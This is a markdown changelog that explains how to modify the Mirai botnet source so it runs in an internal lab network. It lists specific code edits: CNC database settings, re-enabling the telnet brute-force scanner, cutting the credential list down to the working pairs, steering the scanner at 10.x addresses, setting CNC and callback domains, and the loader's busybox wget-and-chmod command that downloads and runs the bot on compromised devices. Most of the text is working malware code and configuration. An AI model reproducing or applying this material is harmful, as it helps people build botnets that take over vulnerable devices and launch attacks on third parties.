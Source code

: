 
# Mirai Source Code Changes

## cnc Folder

### main.go
Change this depending on the database information

#### line 10-13
```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "root"
const DatabaseTable string  = "mirai"
```

## bot Folder

### main.c
The source code comments out the the initialization of the scanner when
in DEBUG mode. In order to have the scanner run properly, the #ifndef has
been commented out.

#### line 158-163
```
//#ifndef DEBUG
#ifdef MIRAI_TELNET
    printf("[scanner] init\n");
    scanner_init();
#endif
//#endif
```

### resolv.c

The IP address must be changed to the DNS Server address.

#### line 84
```
util_zero(&addr, sizeof (struct sockaddr_in));
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = INET_ADDR(10,10,10,5);
addr.sin_port = htons(53);
```

### scanner.c

In order to shorten the time it takes to brute force the victim,
all usernames and passwords except the correct ones were commented out

#### line 136-140
```	
add_auth_entry("\x50\x4D\x4D\x56", "", 4);                                              // root     (none)
add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x52\x43\x51\x51\x55\x4D\x50\x46", 4);          // admin    password*/
add_auth_entry("\x50\x4D\x4D\x56", "\x50\x4D\x4D\x56", 4);                              // root     root
/*add_auth_entry("\x50\x4D\x4D\x56", "\x13\x10\x11\x16\x17", 4);                          // root     12345
add_auth_entry("\x57\x51\x47\x50", "\x57\x51\x47\x50", 3);                              // user     user
```

In order to shorten the time it takes to find the device, the first 3 parts
of the ip address were changed into 10


#### line 693-699

```	
o1 = tmp & 0xff;
o2 = (tmp >> 8) & 0xff;
o3 = (tmp >> 16) & 0xff;
o4 = (tmp >> 24) & 0xff;
o1 = 10;
o2 = 10;
o3 = 10;
```

The source code prevents internal looping, but in order to run mirai inside
the internal network, line 706 has been commented out


#### line 701-712

```	
 while (o1 == 127 ||                             // 127.0.0.0/8      - Loopback
          (o1 == 0) ||                              // 0.0.0.0/8        - Invalid address space
          (o1 == 3) ||                              // 3.0.0.0/8        - General Electric Company
          (o1 == 15 || o1 == 16) ||                 // 15.0.0.0/7       - Hewlett-Packard Company
          (o1 == 56) ||                             // 56.0.0.0/8       - US Postal Service
          //(o1 == 10) ||                             // 10.0.0.0/8       - Internal network
          (o1 == 192 && o2 == 168) ||               // 192.168.0.0/16   - Internal network
          (o1 == 172 && o2 >= 16 && o2 < 32) ||     // 172.16.0.0/14    - Internal network
          (o1 == 100 && o2 >= 64 && o2 < 127) ||    // 100.64.0.0/10    - IANA NAT reserved
          (o1 == 169 && o2 > 254) ||                // 169.254.0.0/16   - IANA NAT reserved
          (o1 == 198 && o2 >= 18 && o2 < 20) ||     // 198.18.0.0/15    - IANA Special use
          (o1 >= 224) ||                            // 224.*.*.*+       - Multicast
```

### table.c 

The CNC server domain name (line 18) and the Scan Listen server (line 21) domain 
name have been changed to the correct ones


#### line 18-22
```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x50\x16\x4C\x46\x12\x4F\x0C\x4F\x47\x22", 14); // cnc.r4nd0m.me
    add_entry(TABLE_CNC_PORT, "\x22\x35", 2);   // 23

    add_entry(TABLE_SCAN_CB_DOMAIN, "\x4C\x51\x13\x0C\x50\x16\x4C\x46\x12\x4F\x0C\x4F\x47\x22", 14); // ns1.r4nd0m.me
    add_entry(TABLE_SCAN_CB_PORT, "\x99\xC7", 2);         // 48101
```

### util.c

The IP address must be changed to the DNS Server address.

#### line 249-251
```
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = INET_ADDR(10,10,10,5);
addr.sin_port = htons(53);
```

## loader/src Folder

### main.c
The IP address must be changed to the Apache Server Address

#### line 53-57
```
if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs, 1024 * 64, "10.10.10.5", 80, "10.10.10.5")) == NULL)
    {
        printf("Failed to initialize server. Aborting\n");
        return 1;
    }
```

### server.c

In order to run in debug mode, the loader must be configured to load in
mirai.dbg instead of the actual architecture (.x86). Therefore line 452-455
have been added and line 457-458 have been commented to only run in release
mode.


#### line 452-459
```

#ifdef DEBUG
				    util_sockprintf(conn->fd, "/bin/busybox wget http://%s:%d/bins/%s.%s -O - > "FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n",
                                                    wrker->srv->wget_host_ip, wrker->srv->wget_host_port, "mirai", "dbg");
#endif
#ifndef DEBUG
                                    util_sockprintf(conn->fd, "/bin/busybox wget http://%s:%d/bins/%s.%s -O - > "FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n",
                                                    wrker->srv->wget_host_ip, wrker->srv->wget_host_port, "mirai", conn->info.arch);
#endif
```


